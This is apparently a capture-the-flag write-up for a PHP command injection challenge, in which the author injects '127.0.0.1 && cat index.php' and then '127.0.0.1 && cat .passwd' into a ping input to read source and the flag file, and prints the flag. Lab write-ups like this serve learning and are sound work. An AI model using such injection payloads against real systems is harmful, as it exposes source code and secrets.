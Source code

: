 ```yaml
---
layout: default
title: PHP-Command-injection
---
```


Here, i injected my command. i guess it do something like: `system('ping ' . '$user_input')`, so, i simply gave this as user_input: `127.0.0.1 && cat index.php`, and saw the password

Then, i saw this line in the resposne:
```php
$flag = "".file_get_contents(".passwd")."";
```

So, i sent this payload: `127.0.0.1 && cat .passwd` (to read the flag)

**Flag:** ***`S3rv1ceP1n9Sup3rS3cure`***

